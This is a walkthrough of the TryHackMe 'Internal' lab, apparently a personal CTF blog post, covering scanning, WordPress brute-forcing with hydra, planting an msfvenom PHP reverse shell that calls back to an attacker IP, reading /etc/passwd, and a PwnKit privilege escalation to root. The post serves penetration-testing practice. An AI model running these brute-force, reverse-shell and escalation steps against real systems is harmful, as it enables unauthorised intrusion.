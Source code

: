 ```yaml
---
title: TryHackMe Internal
date: 2025-01-08
categories: CTFs
tags: tryhackme
---
```


![](/assets/img/internal/internal.jpeg)


# Information Gathering
We are briefed:

> You have been assigned to a client that wants a penetration test conducted on an environment due to be released to production in three weeks. 
> 
> Scope of Work
> 
> The client requests that an engineer conducts an external, web app, and internal assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:
> 
> User.txt
> Root.txt
> Additionally, the client has provided the following scope allowances:
> 
> Ensure that you modify your hosts file to reflect internal.thm
> Any tools or techniques are permitted in this engagement
> Locate and note all vulnerabilities found
> Submit the flags discovered to the dashboard
> Only the IP address assigned to your machine is in scope
> (Roleplay off)
> 
> I encourage you to approach this challenge as an actual penetration test. Consider writing a report, to include an executive summary, vulnerability and exploitation assessment, and remediation suggestions, as this will benefit you in preparation for the eLearnsecurity eCPPT or career as a penetration tester in the field.
> 
> 
> 
> Note - this room can be completed without Metasploit
> 
> **Writeups will not be accepted for this room.**

The target IP address is `10.10.179.181`.

Our objectives are to:

1. locate and obtain the `User.txt` file,
2. locate and obtain the `Root.txt` file,
3. document all vulnerabilities found, and
4. provide remediation suggestions.

# Enumeration
We begin with the nmap scan `nmap -T5 -A -O 10.10.179.181`, which reveals 

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-08 08:15 EST
Nmap scan report for 10.10.179.181
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6e:fa:ef:be:f6:5f:98:b9:59:7b:f7:8e:b9:c5:62:1e (RSA)
|   256 ed:64:ed:33:e5:c9:30:58:ba:23:04:0d:14:eb:30:e9 (ECDSA)
|_  256 b0:7f:7f:7b:52:62:62:2a:60:d4:3d:36:fa:89:ee:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.15
OS details: Linux 4.15
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 5900/tcp)
HOP RTT       ADDRESS
1   32.75 ms  10.6.0.1
2   ... 3
4   102.60 ms 10.10.179.181

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.31 seconds
```
Immediately, we notice the default page for an Apache web server.

We then fuzz for directories using the command `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.179.181/FUZZ -ic`. This outputs

```
...
wordpress               [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 97ms]
blog                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 4360ms]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 4383ms]
javascript              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 97ms]
phpmyadmin              [Status: 301, Size: 319, Words: 20, Lines: 10, Duration: 96ms]
                        [Status: 200, Size: 10918, Words: 3499, Lines: 376, Duration: 97ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 97ms
...
```

We notice that some of the functionality use by the web application uses the domain name `internal.thm` to refer to the target,
so we add the entry `10.10.179.181 internal.thm` to our `/etc/hosts` file.

Our initial observation is that
the wordpress login provides different output when a failed authentication attempt is made with a valid username than it does
when an invalid username is used, simplifying authentication bypass. Moreover, the `phpmyadmin` portal is accessible to the outside world. This is completely unnecessary and poses significant security risks.

Upon navigating to the endpoint `http://internal.thm/wordpress/` and clicking on the `Entries Feed` tab, we automatically
download a file named `n-T86yJG` containing XML data to be used by RSS readers.

![](/assets/img/internal/wordpresslink.png)

This file contains the line
`<generator>https://wordpress.org/?v=5.4.2</generator>`, which indicates that the web server is using wordpress version
5.4.2. This is an information disclosure vulnerability, but it may be necessary for RSS to function properly in this case.

We also note that users can post comments anonymously, which makes this page vulnerable to injection attacks such as XSS.

# Exploitation
We opt to perform a brute force attack on the wordpress login form with the command

```
hydra 10.10.179.181 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/blog/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Finternal.thm%2Fblog%2Fwp-admin%2F&testcookie=1:F=Lost your password?"
```

We quickly find the password is `my2boys` and login. Afterward, we generate a php reverse shell using the command
`msfvenom -p php/reverse_php LHOST=10.6.4.176 LPORT=6969 -o shell.php`, navigate to the theme editor, and copy the contents
of `shell.php` into the active theme's `index.php` file. 

![](/assets/img/internal/theme.png)

Then, we set up a netcat listener with `nc -lvnp 6969` and navigate to `http://internal.thm/blog/`. 
Consequently, we receive a shell as `www-data`.

# Post-Exploitation
To identify the local users on the system we exectute `cat /etc/passwd` and receive

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
aubreanna:x:1000:1000:aubreanna:/home/aubreanna:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```

In attempt to locate the user flag, we run `find / -type f -iname 'user.txt' 2>/dev/null`, but find the file 
`/usr/share/doc/phpmyadmin/html/_sources/user.txt`, which is not a flag. Likely, we need a user with different read permissions
than `www-data`.

While performing some manual enumeration, we list the contents of the `/opt` directory and find the file `wp-save.txt`. The
contents of this file are as follows:

```
Bill,

Aubreanna needed these credentials for something later.  Let her know you have them and where they are.

aubreanna:<DOITURSELF:)>
```

With `ssh aubreanna@10.10.179.181`, we are able to successfully authenticate with the aforementioned password. This allows
us to capture the user flag:

![](/assets/img/internal/user.txt.png)

Running `find / -type f -iname 'root.txt' 2>/dev/null` gives us no results, so we will have to elevate privileges even 
further to obtain the root flag.

Running linpeas on the machine indicates that it is vulnerable to CVE-2021-4034. We use the exploit at [https://github.com/ly4k/PwnKit](https://github.com/ly4k/PwnKit)
and gain root. As root, we rerun the previous `find` command and locate the root flag `/home/root/root.txt`.

![](/assets/img/internal/root.txt.png)





